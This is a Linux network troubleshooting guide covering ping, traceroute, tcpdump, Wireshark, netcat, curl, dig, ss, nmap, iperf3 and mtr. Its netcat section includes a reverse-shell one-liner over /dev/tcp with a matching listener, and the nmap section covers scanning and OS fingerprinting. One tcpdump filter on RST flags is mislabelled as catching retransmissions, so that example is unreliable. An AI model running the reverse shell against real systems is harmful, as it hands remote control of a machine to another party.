

## Overview

Network troubleshooting is a systematic process of isolating and identifying the root cause of
connectivity, performance, or security issues. This section covers the primary tools used for
network diagnostics on Linux systems and provides a methodology for approaching network problems.

The key principle is **start simple and work from layer 1 upward.** Do not jump to Wireshark before
verifying that the cable is plugged in and the interface is up.

## Diagnostic Methodology

### The OSI-Layer Approach

When faced with a network problem, work through the layers systematically:



**Layer 1 -- Physical:**

```bash
# Check interface status
ip link show
ethtool eth0

# Check link speed and duplex
ethtool eth0 | grep -E "Speed|Duplex|Link detected"

# Check cable (physical inspection, link lights)
# Replace cable, try different port on switch
```

**Layer 2 -- Data Link:**

```bash
# Check ARP table
ip neigh show
arp -a

# Ping the local gateway
ping -c 3 192.168.1.1

# Check for ARP issues (incomplete entries)
ip neigh show | grep -c incomplete
```

**Layer 3 -- Network:**

```bash
# Check IP configuration
ip addr show
ip route show

# Ping remote host
ping -c 3 8.8.8.8

# Trace route
traceroute 8.8.8.8

# Check DNS resolution
dig example.com
nslookup example.com
```

**Layer 4 -- Transport:**

```bash
# Check if port is open
ss -tlnp | grep :443
nc -zv 192.168.1.100 443

# Check firewall rules
iptables -L -n -v
nft list ruleset
```

**Layer 7 -- Application:**

```bash
# Test HTTP
curl -v https://example.com

# Test specific API endpoint
curl -v -H "Accept: application/json" https://api.example.com/health

# Check application logs
journalctl -u nginx --since "5 minutes ago"
```

## ping

`ping` sends ICMP Echo Request messages and waits for ICMP Echo Reply messages. It tests basic
reachability and measures round-trip time.

### Basic Usage

```bash
# Standard ping
ping -c 4 example.com

# Ping with specific count and interval
ping -c 10 -i 0.5 8.8.8.8

# Ping with timestamp
ping -c 4 -D example.com

# Flood ping (requires root, sends as fast as possible)
ping -f -c 100 192.168.1.1

# Ping with packet size
ping -c 4 -s 1400 example.com
```

### TTL (Time to Live)

The TTL field in the IP header is decremented by each router. When TTL reaches 0, the router sends
an ICMP Time Exceeded message back to the source. The initial TTL reveals the operating system:

| Initial TTL | OS                           |
| ----------- | ---------------------------- |
| 64          | Linux, macOS, Android, iOS   |
| 128         | Windows                      |
| 255         | Cisco IOS, network equipment |
| 254         | Some Solaris versions        |

```bash
# See TTL in ping output
ping -c 1 8.8.8.8
# Output: ttl=117 (128 - 11 hops = 117, so initial TTL was 128 -> Windows or similar)

# Send with specific TTL
ping -c 1 -t 1 8.8.8.8  # Will fail with "Time to live exceeded"
```

### When Ping Fails

1. **Request timeout:** The host is down, a firewall is blocking ICMP, or the route is broken.
2. **Destination Host Unreachable:** The local router cannot reach the destination network.
3. **Permission Denied:** Requires root for raw ICMP sockets, or the binary is not installed.

:::warning

Do not assume a host is down just because ping fails. Many networks block ICMP at firewalls. Use
`nc -zv` or `curl` to test TCP connectivity as an alternative. ICMP blocking is common in cloud
environments (AWS security groups do not allow ICMP by default).

:::

## traceroute / traceroute6

`traceroute` discovers the path packets take to reach a destination by sending packets with
incrementing TTL values. When a router decrements TTL to 0, it sends an ICMP Time Exceeded message,
revealing the router's IP address.

### ICMP vs UDP Probes

Linux `traceroute` uses UDP probes by default (destination port 33434+). Windows `tracert` uses ICMP
probes. Use `-I` for ICMP or `-T` for TCP probes on Linux.

```bash
# Standard traceroute (UDP probes)
traceroute example.com

# ICMP probes (like Windows tracert)
traceroute -I example.com

# TCP SYN probes (can traverse firewalls that block ICMP/UDP)
traceroute -T -p 443 example.com

# IPv6 traceroute
traceroute6 example.com

# With AS numbers (BGP information)
traceroute -A example.com

# Avoid reverse DNS lookups (faster)
traceroute -n example.com

# Specify number of probes and timeout
traceroute -q 3 -w 2 example.com
```

### Interpreting traceroute Output

```
traceroute to example.com (93.184.216.34), 30 hops max, 60 byte packets
 1  gateway (192.168.1.1)  0.341 ms  0.312 ms  0.287 ms
 2  10.0.0.1 (10.0.0.1)  1.234 ms  1.112 ms  1.098 ms
 3  * * *
 4  isp-gw.example.net (203.0.113.1)  12.345 ms  11.234 ms  12.456 ms
 5  core-rtr.example.net (198.51.100.1)  14.567 ms  13.456 ms  14.678 ms
 6  93.184.216.34 (93.184.216.34)  15.678 ms  14.567 ms  15.789 ms
```

- `* * *`: The probe timed out. This usually means the router is configured to not respond to ICMP
  Time Exceeded, or ICMP is filtered. It does **not** necessarily mean the packet is being dropped.
- High latency at a hop: The router may be slow to respond to ICMP Time Exceeded, but forwarding may
  still be fast. Look at the latency of subsequent hops -- if they are normal, the high-latency hop
  is just slow to respond to traceroute probes.
- Increasing latency: May indicate congestion, a slow link, or a longer physical path.

## tcpdump

`tcpdump` is the standard command-line packet capture tool. It uses BPF (Berkeley Packet Filter)
expressions to filter captured packets and can capture packets for analysis or save them to a file
for Wireshark.

### Basic Capture

```bash
# Capture all traffic on an interface
tcpdump -i eth0

# Capture with verbose output
tcpdump -i eth0 -vv

# Capture N packets
tcpdump -i eth0 -c 100

# Capture and save to pcap file
tcpdump -i eth0 -w capture.pcap

# Read from pcap file
tcpdump -r capture.pcap

# Capture with timestamps relative to first packet
tcpdump -i eth0 -tttt
```

### BPF Filter Expressions

BPF expressions filter packets based on protocol fields. They are compiled to BPF bytecode and
executed in the kernel for efficiency.

```bash
# Capture traffic to/from a specific host
tcpdump -i eth0 host 192.168.1.100

# Capture traffic to a specific port
tcpdump -i eth0 port 443

# Capture TCP traffic only
tcpdump -i eth0 tcp

# Capture UDP traffic only
tcpdump -i eth0 udp

# Capture traffic on a specific subnet
tcpdump -i eth0 net 192.168.1.0/24

# Capture SYN and FIN packets (connection setup/teardown)
tcpdump -i eth0 'tcp[tcpflags] & (tcp-syn|tcp-fin) != 0'

# Capture packets with a specific flag set
tcpdump -i eth0 'tcp[tcpflags] & tcp-syn != 0'

# Capture HTTP traffic (port 80)
tcpdump -i eth0 port 80 -A

# Capture DNS queries
tcpdump -i eth0 port 53

# Capture ARP traffic
tcpdump -i eth0 arp

# Capture ICMP traffic
tcpdump -i eth0 icmp

# Exclude SSH traffic from capture
tcpdump -i eth0 not port 22

# Capture traffic to/from multiple hosts
tcpdump -i eth0 'host 192.168.1.100 or host 192.168.1.200'

# Capture TCP retransmissions
tcpdump -i eth0 'tcp[tcpflags] & tcp-rst != 0'

# Capture packets larger than 1000 bytes
tcpdump -i eth0 'greater 1000'

# Capture packets to a specific destination
tcpdump -i eth0 dst 8.8.8.8
```

### Advanced tcpdump

```bash
# Show packet content in ASCII and hex
tcpdump -i eth0 -X

# Show packet content in ASCII only
tcpdump -i eth0 -A

# Capture with absolute timestamps
tcpdump -i eth0 -tttt

# Capture VLAN-tagged traffic
tcpdump -i eth0 -e vlan

# Capture on all interfaces
tcpdump -i any

# Capture with a specific snapshot length (default 262144)
tcpdump -i eth0 -s 65535

# Capture promiscuously (default on most systems)
tcpdump -i eth0 -p  # Non-promiscuous mode (only traffic to/from this host)
```

### tcpdump for TLS Debugging

```bash
# Capture TLS handshake
tcpdump -i eth0 port 443 -s 65535 -w tls-handshake.pcap

# Capture TLS ClientHello to see supported cipher suites
tcpdump -i eth0 -A -s 0 'tcp port 443 and (tcp[((tcp[12:1] & 0xf0) >> 2):1] = 0x16)'
```

## Wireshark

Wireshark is the graphical packet analysis tool. It reads pcap files captured by tcpdump or captures
packets directly from a network interface.

### Display Filters

Wireshark display filters use a different syntax from tcpdump BPF filters:

```
# By protocol
tcp
udp
http
dns
tls
arp
icmp

# By IP address
ip.addr == 192.168.1.100
ip.src == 192.168.1.100
ip.dst == 192.168.1.100

# By port
tcp.port == 443
tcp.srcport == 443
tcp.dstport == 443

# By TCP flags
tcp.flags.syn == 1
tcp.flags.rst == 1
tcp.flags.fin == 1
tcp.analysis.retransmission

# By packet size
frame.len > 1000

# HTTP
http.request.method == "GET"
http.response.code == 200
http.host contains "example.com"

# DNS
dns.qry.name contains "example.com"
dns.qry.type == 1    # A record
dns.qry.type == 28   # AAAA record

# TLS
tls.handshake.type == 1    # ClientHello
tls.handshake.type == 2    # ServerHello
tls.handshake.extensions.server_name == "example.com"

# Combined filters
ip.addr == 192.168.1.100 && tcp.port == 443
tcp.flags.syn == 1 && tcp.flags.ack == 0    # SYN only (not SYN-ACK)
```

### Following Streams

Wireshark can reassemble TCP streams into a readable format:

- **Follow TCP Stream:** Right-click a TCP packet, select "Follow" -&gt; "TCP Stream." Shows the
  full conversation in order.
- **Follow TLS Stream:** Reassembles decrypted TLS data (requires the TLS session key or key log
  file).
- **Follow HTTP Stream:** Reassembles HTTP request/response pairs.

### Statistics

Wireshark provides powerful statistical analysis:

- **Conversations:** View all conversations (TCP, UDP, etc.) with byte counts and packet counts.
- **Endpoints:** View all endpoints (IP addresses, MAC addresses) with traffic statistics.
- **Protocol Hierarchy:** Percentage breakdown of protocol usage.
- **IO Graphs:** Traffic volume over time (packets/bytes per second).
- **Flow Graph:** Visual representation of packet flows between endpoints.

### Decrypting TLS in Wireshark

To decrypt TLS traffic, provide the session keys:

```bash
# For applications using OpenSSL, set the SSLKEYLOGFILE environment variable
export SSLKEYLOGFILE=/tmp/sslkeys.log
curl https://example.com

# In Wireshark: Edit -> Preferences -> Protocols -> TLS -> (Pre)-Master-Secret log filename
# Point to /tmp/sslkeys.log

# For Firefox: set SSLKEYLOGFILE in about:config or environment variable
# For Chrome: launch with --ssl-key-log-file=/tmp/sslkeys.log
```

## netcat (nc)

`netcat` is a versatile networking utility for reading from and writing to network connections. It
is often called the "TCP/IP Swiss army knife."

### Port Scanning

```bash
# Check if a single port is open
nc -zv 192.168.1.100 443

# Scan a range of ports
nc -zv 192.168.1.100 20-100

# Scan specific ports
nc -zv 192.168.1.100 22 80 443 3306 5432

# Scan with timeout
nc -zvw 2 192.168.1.100 443
```

### Listening and Connecting

```bash
# Listen on a port (TCP)
nc -l 8080

# Listen on a port (UDP)
nc -ul 53

# Connect to a port
nc 192.168.1.100 8080

# Connect with verbose output
nc -v 192.168.1.100 443
```

### File Transfer

```bash
# On the receiving host
nc -l 8080 > received_file.txt

# On the sending host
nc 192.168.1.100 8080 < file_to_send.txt
```

### HTTP Requests

```bash
# Send an HTTP request
printf "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80

# Send a raw TCP request
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\nConnection: close\r\n\r\n" | nc example.com 80
```

### Reverse Shell (Security Testing)

```bash
# Listener (attacker machine)
nc -lvnp 4444

# Target connects back (only on authorized systems!)
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
```

:::danger

Reverse shells and bind shells should only be used in authorized security testing environments.
Using them without authorization is illegal.

:::

## curl

`curl` is the standard command-line HTTP client. It supports every HTTP feature, multiple protocols
(HTTP, HTTPS, FTP, SCP, SFTP), and extensive configuration options.

### Basic Usage

```bash
# GET request
curl https://example.com

# Verbose output (show headers, request/response)
curl -v https://example.com

# Show only response headers
curl -I https://example.com

# Follow redirects
curl -L https://example.com

# Silent mode (no progress bar, no errors)
curl -s https://example.com

# Show response with status code
curl -s -o /dev/null -w "%{http_code}" https://example.com
```

### HTTP Methods

```bash
# POST with JSON body
curl -X POST -H "Content-Type: application/json" \
  -d '{"name":"Alice","email":"alice@example.com"}' \
  https://api.example.com/users

# PUT
curl -X PUT -H "Content-Type: application/json" \
  -d '{"name":"Alice Updated"}' \
  https://api.example.com/users/1

# PATCH
curl -X PATCH -H "Content-Type: application/json" \
  -d '{"email":"newalice@example.com"}' \
  https://api.example.com/users/1

# DELETE
curl -X DELETE https://api.example.com/users/1

# POST with form data
curl -X POST -d "username=alice&password=secret" https://example.com/login

# POST with file upload
curl -X POST -F "file=@document.pdf" https://example.com/upload
```

### Headers

```bash
# Custom headers
curl -H "Authorization: Bearer token123" https://api.example.com/data
curl -H "X-Custom-Header: value" https://example.com

# Multiple headers
curl -H "Authorization: Bearer token123" \
     -H "Accept: application/json" \
     -H "X-Request-ID: abc-123" \
     https://api.example.com/data

# Show response headers
curl -i https://example.com
# or
curl -D - https://example.com
```

### Time and Performance

```bash
# Show timing breakdown
curl -w "DNS: %{time_namelookup}s\nConnect: %{time_connect}s\nTLS: %{time_appconnect}s\nTotal: %{time_total}s\n" \
  -o /dev/null -s https://example.com

# Output format:
# DNS: 0.012345s
# Connect: 0.023456s
# TLS: 0.045678s
# Total: 0.067890s
```

### TLS Options

```bash
# Use specific TLS version
curl --tlsv1.2 https://example.com
curl --tlsv1.3 https://example.com

# Show certificate chain
curl -v https://example.com 2>&1 | grep -E "SSL|subject|issuer|expire"

# Specify CA certificate
curl --cacert /path/to/ca.pem https://example.com

# Skip certificate verification (insecure, for testing only)
curl -k https://example.com

# Use client certificate
curl --cert client.pem --key client.key https://example.com

# Show supported cipher suites
curl -v --ciphers 'ALL' https://example.com 2>&1 | grep "SSL connection"
```

### Retry and Timeout

```bash
# Set connection timeout and max time
curl --connect-timeout 5 --max-time 30 https://example.com

# Retry on failure (curl 7.66.0+)
curl --retry 3 --retry-delay 2 --retry-all-errors https://example.com

# Retry with backoff
curl --retry 5 --retry-delay 2 --retry-max-time 60 https://example.com
```

## dig

`dig` (Domain Information Groper) is the standard DNS query tool. It provides detailed DNS
information and is more flexible than `nslookup`.

### Basic Queries

```bash
# Query A record
dig example.com

# Query specific record type
dig example.com A
dig example.com AAAA
dig example.com MX
dig example.com TXT
dig example.com CNAME
dig example.com NS
dig example.com SOA

# Query from a specific DNS server
dig @8.8.8.8 example.com
dig @1.1.1.1 example.com

# Short output (IP address only)
dig +short example.com

# Verbose output
dig +noall +answer example.com

# Query with specific class
dig example.com A -c IN
```

### Reverse DNS

```bash
# Reverse DNS lookup
dig -x 93.184.216.34
dig -x 2606:2800:220:1:248:1893:25c8:1946
```

### DNS Trace

```bash
# Trace DNS resolution from root
dig +trace example.com

# Trace showing each step
dig +trace example.com @8.8.8.8
```

### Advanced Queries

```bash
# Query DNSSEC records
dig example.com DNSKEY +dnssec
dig example.com RRSIG +dnssec

# Query with EDNS0 (Extension Mechanisms)
dig +edns=0 example.com

# Query with specific EDNS buffer size
dig +bufsize=4096 example.com

# Query TXT records for SPF/DKIM/DMARC
dig example.com TXT
dig _dmarc.example.com TXT

# Query CAA records
dig example.com CAA +short

# Check zone transfer (AXFR) -- usually blocked
dig axfr example.com @ns1.example.com

# Query with TCP
dig +tcp example.com

# Query with specific port
dig -p 5353 example.com @127.0.0.1

# Multiple queries
dig example.com A AAAA MX +noall +answer
```

### DNS Debugging

```bash
# Show all sections of the response
dig +all example.com

# Show only the answer section
dig +noall +answer example.com

# Show only the authority section
dig +noall +authority example.com

# Show only the additional section
dig +noall +additional example.com

# Query with timeout
dig +time=2 +tries=1 example.com

# Check for DNSSEC validation
dig +dnssec example.com
delv example.com
```

## nslookup

`nslookup` is a simpler DNS query tool. It is less flexible than `dig` but is available on more
systems (including Windows).

```bash
# Basic lookup
nslookup example.com

# Specific record type
nslookup -type=MX example.com
nslookup -type=NS example.com
nslookup -type=TXT example.com

# Specific DNS server
nslookup example.com 8.8.8.8

# Reverse lookup
nslookup 93.184.216.34

# Interactive mode
nslookup
> set type=ANY
> example.com
> server 1.1.1.1
> example.com
> exit
```

## ss (Socket Statistics)

`ss` replaces the older `netstat` command for examining network sockets. It is faster and provides
more detailed information.

### Common Usage

```bash
# Show all TCP connections
ss -tan

# Show all listening TCP sockets
ss -tlnp

# Show all UDP sockets
ss -uanp

# Show all sockets (TCP, UDP, UNIX)
ss -tanup

# Show socket memory usage
ss -tm

# Filter by state
ss -tan state established
ss -tan state time-wait
ss -tan state close-wait

# Show sockets for a specific process
ss -tanp pid=1234

# Show sockets for a specific user
ss -tanup user=root

# Show sockets for a specific address
ss -tan dst 192.168.1.100

# Show sockets for a specific port
ss -tan sport = :443
ss -tan dport = :443

# Show timer information (keepalive, retransmission)
ss -to

# Extended information (uid, ino, sk, etc.)
ss -tanep
```

### Key Fields

```bash
ss -tanp
# State   Recv-Q  Send-Q  Local Address:Port  Peer Address:Port  Process
# ESTAB   0       0       192.168.1.10:54321  93.184.216.34:443  users:(("curl",pid=12345,fd=3))
```

- **Recv-Q:** For ESTABLISHED sockets, bytes in the receive buffer not yet read by the application.
  For LISTEN sockets, the backlog (pending connections in the SYN queue).
- **Send-Q:** For ESTABLISHED sockets, bytes in the send buffer not yet acknowledged by the peer.
  For LISTEN sockets, the accept queue size (configured backlog).
- **Process:** The process name, PID, and file descriptor that owns the socket.

### Debugging with ss

```bash
# Check for TIME_WAIT accumulation
ss -tan state time-wait | wc -l

# Check for CLOSE_WAIT (application not closing sockets)
ss -tan state close-wait

# Check for high Recv-Q (application not reading fast enough)
ss -tan | awk '$2 > 1000'

# Show socket buffer sizes
ss -tanm

# Show TCP info (congestion window, RTT, retransmissions)
ss -ti dst 93.184.216.34:443
```

## nmap

`nmap` is a network scanning tool for port scanning, service detection, and OS fingerprinting.

### Port Scanning

```bash
# Scan common ports
nmap 192.168.1.100

# Scan all 65535 ports
nmap -p- 192.168.1.100

# Scan specific ports
nmap -p 22,80,443 192.168.1.100

# Scan a range
nmap -p 1-1000 192.168.1.100

# TCP SYN scan (stealth scan, faster than connect scan)
nmap -sS 192.168.1.100

# UDP scan (slow, requires root)
nmap -sU 192.168.1.100

# Fast scan (top 100 ports)
nmap -F 192.168.1.100

# Scan with service version detection
nmap -sV 192.168.1.100

# Scan with OS detection
nmap -O 192.168.1.100

# Aggressive scan (version, script, OS)
nmap -A 192.168.1.100

# Scan a subnet
nmap 192.168.1.0/24

# Scan without DNS resolution (faster)
nmap -n 192.168.1.100

# Scan with output formats
nmap -oN scan.txt 192.168.1.100    # Normal output
nmap -oX scan.xml 192.168.1.100    # XML output
nmap -oG scan.gnmap 192.168.1.100  # Grepable output
```

### Service and Script Scanning

```bash
# Default scripts (vulnerability detection)
nmap -sC 192.168.1.100

# Specific NSE scripts
nmap --script http-headers 192.168.1.100
nmap --script ssl-heartbleed 192.168.1.100
nmap --script vuln 192.168.1.100

# TLS scanning
nmap --script ssl-enum-ciphers -p 443 192.168.1.100
```

## iperf3

`iperf3` measures network throughput (bandwidth) between two hosts. One host runs as a server, the
other as a client.

### Basic Usage

```bash
# On the server
iperf3 -s

# On the client (default: TCP, 10 seconds)
iperf3 -c 192.168.1.100

# Specific duration
iperf3 -c 192.168.1.100 -t 30

# UDP test
iperf3 -c 192.168.1.100 -u -b 1G

# Parallel streams (test multi-connection throughput)
iperf3 -c 192.168.1.100 -P 8

# Reverse direction (server sends to client)
iperf3 -c 192.168.1.100 -R

# Specific port
iperf3 -c 192.168.1.100 -p 5201

# JSON output (for scripting)
iperf3 -c 192.168.1.100 -J
```

### Interpreting Results

```
[ ID] Interval           Transfer     Bitrate
[  5]   0.00-1.00   sec  112 MBytes   941 Mbits/sec
[  5]   1.00-2.00   sec  112 MBytes   941 Mbits/sec
[  5]   2.00-3.00   sec  112 MBytes   941 Mbits/sec
[  5]   3.00-4.00   sec  112 MBytes   941 Mbits/sec
- - - - - - - - - - - - - - - - - - -
[ ID] Interval           Transfer     Bitrate
[  5]   0.00-4.00   sec  449 MBytes   942 Mbits/sec   sender
[  5]   0.00-4.00   sec  449 MBytes   942 Mbits/sec   receiver
```

- **Bitrate &lt; expected:** Check for duplex mismatches, cable issues, NIC speed negotiation, or
  congestion on the path.
- **Significant retransmissions:** Packet loss on the path. Check with `ping` and `mtr`.
- **High jitter (UDP):** Variable latency. Common on wireless links and congested networks.

## mtr (My Traceroute)

`mtr` combines `ping` and `traceroute` into a single tool. It sends packets to every hop
simultaneously and continuously updates the display, showing loss and latency at each hop.

```bash
# Standard mtr
mtr example.com

# Report mode (non-interactive, N cycles)
mtr --report --report-cycles 10 example.com

# TCP mode (can traverse firewalls that block ICMP)
mtr --tcp -P 443 example.com

# UDP mode
mtr --udp example.com

# With no DNS resolution
mtr --no-dns example.com

# IPv6
mtr -6 example.com

# With specific packet size
mtr --psize 1400 example.com
```

### Interpreting mtr Output

```
Start: 2024-01-01T00:00:00+0000  HOST: example.com                        Loss%   Snt   Last   Avg  Best  Wrst StDev
  1.|-- 192.168.1.1              0.0%    10    0.3   0.3   0.3   0.4   0.0
  2.|-- 10.0.0.1                 0.0%    10    1.2   1.1   1.0   1.3   0.1
  3.|-- ???                      100.0    10    0.0   0.0   0.0   0.0   0.0
  4.|-- 203.0.113.1              0.0%    10   12.3  12.1  11.2  13.5   0.7
  5.|-- 198.51.100.1             0.0%    10   14.5  14.3  13.4  15.7   0.8
  6.|-- 93.184.216.34            0.0%    10   15.6  15.4  14.5  16.8   0.9
```

- **Loss%:** Packet loss at that hop. Loss at intermediate hops that does not propagate to
  subsequent hops is usually rate limiting of ICMP responses, not real packet loss.
- **Last/Avg/Best/Worst:** Latency measurements. Look for sudden increases between hops.
- **StDev:** Standard deviation of latency. High values indicate variable latency (jitter).
- **???**: The hop is not responding. This is common and usually does not indicate a problem.

## Common Pitfalls

1. **Capturing on the wrong interface.** On systems with multiple interfaces, `tcpdump -i any`
   captures on all interfaces but may not show VLAN tags. Capture on the specific interface
   (`tcpdump -i eth0`) for accurate results.

2. **tcpdump dropping packets.** `tcpdump` may drop packets on high-throughput links because the
   kernel buffer fills faster than userspace reads. Increase the buffer size with `-B` (buffer size
   in bytes): `tcpdump -i eth0 -B 32768`. Use `-c` to limit the number of captured packets.

3. **Confusing `ss` Recv-Q for established vs listening sockets.** For ESTABLISHED sockets, Recv-Q
   is unread data. For LISTEN sockets, Recv-Q is the SYN backlog (pending connections). High Recv-Q
   on LISTEN means the server is not accepting connections fast enough.

4. **nmap timing and IDS.** Default nmap scans can be slow. Use `-T4` or `-T5` for faster scans in
   trusted environments. Aggressive scanning can trigger IDS/IPS alerts.

5. **iperf3 single-stream vs multi-stream.** A single TCP stream is limited by congestion control.
   Multi-stream tests (`-P 8`) can saturate higher-bandwidth links but do not represent real
   application behavior. Use the appropriate number of streams for your workload.

6. **Forgetting to check MTU.** MTU mismatches cause fragmented packets and "path MTU black holes"
   when ICMP Fragmentation Needed messages are filtered. Test with:
   `ping -c 3 -M do -s 1472 example.com` (1472 + 28 bytes IP+ICMP header = 1500 bytes). If this
   fails, reduce the size until it succeeds to find the actual path MTU.

7. **DNS caching interfering with diagnostics.** When troubleshooting DNS, flush the resolver cache
   to ensure you are testing against the authoritative server:

```bash
# Linux (systemd-resolved)
resolvectl flush-caches

# macOS
sudo dscacheutil -flushcache
sudo killall -HUP mDNSResponder

# Windows
ipconfig /flushdns

# Use +trace in dig to bypass caches
dig +trace example.com
```

8. **Trusting tool output blindly.** Always verify with multiple tools. If `ping` fails but `curl`
   succeeds, ICMP is filtered. If `dig` returns an IP but `curl` fails, there may be a firewall
   blocking TCP. Cross-reference symptoms across tools and layers to isolate the root cause.
